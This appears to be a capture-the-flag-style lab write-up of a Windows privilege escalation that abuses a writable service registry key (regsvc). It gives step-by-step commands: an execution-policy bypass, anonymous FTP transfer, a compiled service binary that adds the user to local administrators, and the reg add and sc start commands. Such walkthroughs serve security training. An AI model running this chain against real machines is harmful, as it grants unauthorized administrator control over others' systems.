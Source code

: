 # Service Escalation - Registry

- Using `Get-Acl` we determine that the `NT AUTHORITY\INTERACTIVE` has full control over the `regsvc` registry
- We can add a malicious executable to the registry service
- We can exploit this to either get a reverse shell or add a user

## Step 1: Detection

- Open PowerShell prompt and type: **`Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`**

```jsx
C:\Users\user> powershell -ep bypass
PS C:\Users\user> Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

- Notice that the output suggests that user belong to “`NT AUTHORITY\INTERACTIVE`” has “`FullContol`” permission over the registry key.

![get_acl](get_acl.png)

## Step 2: Transfer File

- Start FTP server on port 21 and allow `write` access

```jsx
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ pip3 install pyftpdlib

┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ python -m pyftpdlib -p 21 --write
/home/vagrant/.local/lib/python3.11/site-packages/pyftpdlib/authorizers.py:108: RuntimeWarning: write permissions assigned to anonymous user.
  self._check_permissions(username, perm)
[I 2023-12-27 23:12:18] concurrency model: async
[I 2023-12-27 23:12:18] masquerade (NAT) address: None
[I 2023-12-27 23:12:18] passive ports: None
[I 2023-12-27 23:12:18] >>> starting FTP server on 0.0.0.0:21, pid=2440229 <<<
```

- Open terminal in the directory where `windows_service.c` is located

![source](source.png)

- Copy ‘`C:\Users\User\Desktop\Tools\Source\windows_service.c`’ to the attack machine

```jsx
C:\Users\User\Desktop\Tools\Source> ftp 10.18.48.44
User (10.18.48.44:(none)): anonymous
Password:
230 Login successful
ftp> put windows_service.c
```

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/234bc2e7-af11-462d-b119-18d130c204a1/f2285106-4ba4-4f0e-b345-fb7bf17b1b65/Untitled.png)

## Step 3: Exploitation

---

- Open `windows_service.c` in a text editor and replace the command used by the system() function to: **`cmd.exe /k net localgroup administrators user /add`**

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/234bc2e7-af11-462d-b119-18d130c204a1/9b17624f-5b27-4c94-9935-8afd0bbe15a0/Untitled.png)

- Compile the file by typing the following in the command prompt:
  - **`x86_64-w64-mingw32-gcc windows_service.c -o x.exe`**
  - **NOTE: if this is not installed, use '`sudo apt install gcc-mingw-w64`'**

```jsx
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```

- Copy the generated file `x.exe`, to the target using the `pytfp` server
- Make sure to use `binary` mode for the transfer process

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/234bc2e7-af11-462d-b119-18d130c204a1/562bea23-0730-408f-b0eb-ef0cf0aa8a0e/Untitled.png)

### Add Executable to `ImagePath` of the Registry Service

- Open command prompt at type:

**`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`**

```jsx
C:\Temp> **reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f**
```

- Start the `registry service` in the command prompt type: **`sc start regsvc`**

```jsx
C:\Temp> sc start regsvc
```

- Verify the `user` account has been added to the `local administrators` group

```jsx
C:\Temp> net localgroup administrators
```

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/234bc2e7-af11-462d-b119-18d130c204a1/a5f4d835-2eaf-4b65-90a6-7856e3449ecd/Untitled.png)
